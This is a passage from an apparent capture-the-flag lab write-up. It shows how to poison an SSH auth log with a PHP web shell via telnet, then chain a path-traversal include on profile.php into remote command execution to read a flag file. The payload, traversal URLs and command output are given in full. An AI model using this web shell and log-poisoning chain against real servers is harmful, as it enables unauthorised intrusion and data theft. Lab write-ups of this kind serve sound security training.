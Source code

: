 #### Data exfiltration
1. Anothet readable location is the log file `/var/log/auth.log` the information here is saved from login attempts like SSH attempts
2. Since the direct access to SSH like `ssh <?php system($_GET['c']);?>@<target_ip>` is not working because of the characters in the username we can use telnet to inject the PHP payload and poison the log
3. Telnet like:
```txt
telnet 10.10.53.113 22
Trying 10.10.53.113...
Connected to 10.10.53.113.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system($_GET['c']);?>
Invalid SSH identification string.
Connection closed by foreign host.
```

4. After injecting the payload you can run commands as a logged user by simply using the URL in the browser. List folder content

```txt
http://10.10.53.113:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//var/log/auth.log&c=ls

Feb 21 11:26:06 mail sshd[1865]: Server listening on 0.0.0.0 port 22. Feb 21 11:26:06 mail sshd[1865]: Server listening on :: port 22. Feb 21 11:26:16 mail sudo: root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/etc/badr/badr Feb 21 11:26:16 mail sudo: pam_unix(sudo:session): session opened for user root by (uid=0) Feb 21 11:28:58 mail sshd[2176]: error: kex_exchange_identification: client sent invalid protocol identifier "505eb0fb8a9f32853b4d955e1f9123ea.txt api.php auth.php dashboard.php index.php login.php logout.php profile.php templates uploads " Feb 21 11:39:01 mail CRON[2198]: pam_unix(cron:session): session opened for user root by (uid=0) Feb 21 11:39:01 mail CRON[2198]: pam_unix(cron:session): session closed for user root
```

5. To read the content of the hidden file run command in the bowser and get the flag:
```txt
http://10.10.53.113:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//var/log/auth.log&c=cat%20505eb0fb8a9f32853b4d955e1f9123ea.txt

Feb 21 11:26:06 mail sshd[1865]: Server listening on 0.0.0.0 port 22. Feb 21 11:26:06 mail sshd[1865]: Server listening on :: port 22. Feb 21 11:26:16 mail sudo: root : TTY=unknown ; PWD=/ ; USER=root ; COMMAND=/etc/badr/badr Feb 21 11:26:16 mail sudo: pam_unix(sudo:session): session opened for user root by (uid=0) Feb 21 11:28:58 mail sshd[2176]: error: kex_exchange_identification: client sent invalid protocol identifier "THM{xxxx} "
```

6. Upgrading path traversal to RCE we managed to get the **SECOND_FLAG**